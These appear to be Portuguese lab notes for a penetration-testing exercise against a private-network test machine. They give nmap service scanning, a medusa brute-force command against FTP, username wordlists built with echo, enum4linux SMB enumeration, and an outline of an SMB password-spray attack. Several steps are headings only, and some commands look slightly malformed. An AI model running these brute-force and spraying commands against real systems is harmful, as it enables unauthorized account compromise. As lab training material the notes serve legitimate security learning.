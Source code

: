 Listar IP do equipamentos

Executar o comando **Ip a**   - lista o ip do equipamentos 192.168.56.101

Realizar o **ping  192.168.56.101** 



Iniciar a Enumeração 

No terminal executar **nmap -sV -p 21,22,80,445,139 192.168.56.101**



Testar o acesso ao ftp para saber se o serviço esta ativo 



Criando arquivo com usuários para invasão  -  **echo -p 'user\\nmsfadmin\\nadmin\\nroot' > users.txt**



Criando arquivo com senhas para invasao 



Ataque ao host -  **medusa -h  ip do host  -U users.txt -P pass.txt -M ftp -t 6** 



Validar o acesso de ftp  



Criando wordlist para ataque aos sites

**echo -p 'user\\nmsfadmin\\nadmin\\nroot' > users.txt repetir o cenário para uma de senhas**



ATAQUE EM CADEIA + PASSWORDSPRAY + ENUMERACAO 



ATAQUE A UM SERVIÇO DE SMB = Descobrir usuario e testar acesso por sprayng (teste de 1 senha com varios usuario) ataque silecioso



Comando de enumeracao = **enum4linux -A iphost | tee enum4\_output.txt**





Criar worlist de usuarios 



Ataque servidor smb 





